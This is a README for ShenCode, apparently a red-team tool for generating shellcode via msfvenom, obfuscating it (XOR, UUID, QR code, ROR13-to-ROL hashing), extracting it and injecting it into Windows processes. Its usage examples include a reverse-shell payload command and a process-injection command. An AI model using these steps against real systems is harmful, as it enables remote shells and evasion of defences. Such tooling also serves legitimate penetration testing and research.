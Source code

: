 # ShenCode

A multi purpose tool for shellcode operations

I am developing under Windows. This release brings some compatibility fixes for Kali Linux. `inject` and `ROR2ROL` are Windows dependent. All other features are now available for Kali and maybe other Posix OS.

![[shencode-042.png]]

## Features

### Version 0.4.3

- create
	- create shellcodes with msfvenom
- encode
	- `ROR13` to `ROL` with custom key (only Windows)
	- `QR-Code`: hide OpCodes as QR-Code image
	- `XOR` encryption
	- `UUID` obfuscation
- extract
	- extract shellcode from position `x` to `y`
- inject
	- inject shellcode into a remote process (only Windows)
- output
	- raw shellcode to file
	- formatting options: `C++, C#, C-ASM, PS, PY, HEX`
	- new `inspect` option helps to find offsets
	- output in console windows
	- output in template

## ToDo

- automatical compile feature
- integrate more frameworks
- integrate more encoder

## How to use

### create shellcode

`python shencode.py create --cmd="-p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4443 -f raw -o payload.bin"`
### encode shellcode


| Encoder          | Arguments                                                              |
| ---------------- | ---------------------------------------------------------------------- |
| **ROR13 to ROL** | `encode --filename shell.raw --outputfile shell.enc --key 33`          |
| **QR-Code**      | `encode --filename shell.raw --outputfile shell.enc --qrcode`          |
| **UUID**         | `encode --filename shell.raw --uuid`                                   |
| **XOR**          | `encode --filename shell.raw --outputfile shell.enc --xor --xorkey 96` |

### extract shellcode

`python shencode.py extract --filename bin.o --outputfile shell.raw --first-byte 6 --last-byte 128`
### inject shellcode

`python shencode.py inject --filename calc.raw --processname notepad.exe --startprocess`
### output in different styles

#### console output

`python shencode.py -o {c, casm, cs, ps1, py, hex} <commands>`

Check [this repository](https://github.com/psycore8/bin2shellcode) for more information regarding the output.

#### inspect output

`python shencode.py output --filename inputfile --syntax inspect`

Output hex in 8 byte: `0x00000008: 48 31 c0 48 89 45 f8 48`

#### write output to a template file

`python shencode.py output --filename inputfile --write templatefile --syntax c`

This command replaces a `!++BUFFER++!` placeholder in the given file e.g.

```cpp
unsigned char buf[] =
!++BUFFER++!
```

will be replaced by the generated shellcode

```cpp
unsigned char buf[] =
"\x90\x01\..\xff";
```

## Config

Make sure your metasploit binary folder is in your PATH variable

## Parameter

Please [refer to the wiki](https://github.com/psycore8/shencode/wiki) for a full parameter list.

| **Command** | **Subcommand** | **Short** | **Description**                                                                       | Requires  |
| ----------- | -------------- | --------- | ------------------------------------------------------------------------------------- | --------- |
| create      |                |           | create a shellcode using msfvenom                                                     |           |
|             | --cmd          | -c        | msfvenom command line, use quotation marks and equal sign e.g --cmd=\"-p ...\"        |           |
| encode      |                |           | Shellcode encoding                                                                    |           |
|             | --filename     | -f        | raw input file with shellcode                                                         |           |
|             | --outputfile   | -o        | raw output file                                                                       |           |
|             | --ror2rol      | -r        | encode windows function hashes to ROL                                                 | -f -o -rk |
|             | --key          | -rk       | ROL key for encoding                                                                  |           |
|             | --qrcode       | -q        | Create a QR Code from Shellcode                                                       | -f        |
|             | --xor          | -x        | use additional XOR encoding                                                           | -f -o -xk |
|             | --xorkey       | -xk       | XOR key for encoding                                                                  |           |
|             | --uuid         | -u        | Obfuscate Shellcode as UUID                                                           | -f        |
| extract     |                |           |                                                                                       |           |
|             | --filename     | -f        | binary input file                                                                     |           |
|             | --outputfile   | -o        | name of the outputfile                                                                |           |
|             | --first-byte   | -fb       | first byte to extract                                                                 | -f -o     |
|             | --last-byte    | -lb       | last byte to extract                                                                  |           |
| inject      |                |           | inject shellcode                                                                      |           |
|             | --filename     | -f        | raw input file with shellcode to inject                                               |           |
|             | --processname  | -p        | process name to inject                                                                |           |
|             | --startprocess | -s        | if set, process will be started                                                       |           |
| output      |                |           | create formatted output by filename                                                   |           |
|             | --filename     | -f        | raw input file with shellcode                                                         |           |
|             | --lines        | -l        | adding line offsets                                                                   | -f -s     |
|             | --syntax       | -s        | formatting the shellcode, choose between `c, casm, cs, hex, inspect, ps1, py`         |           |
|             | --write        | -w        | write output to the given filename (replacing  `!++BUFFER++!` placeholder in the file |           |
| --output    |                |           | formatting the shellcode in C, Casm, C#, Powershell, python or hex                    |           |

## References

- [Function Name Hashing](https://www.bordergate.co.uk/function-name-hashing/)
- [Win32API with python3 injection](https://systemweakness.com/win32api-with-python3-part-iii-injection-6dd3c1b99c90)
- [Violent python: XOR Encryption](https://samsclass.info/124/proj14/VPxor.htm)
- [How to easily encrypt file in python](https://www.stackzero.net/how-to-easily-encrypt-file-in-python/)

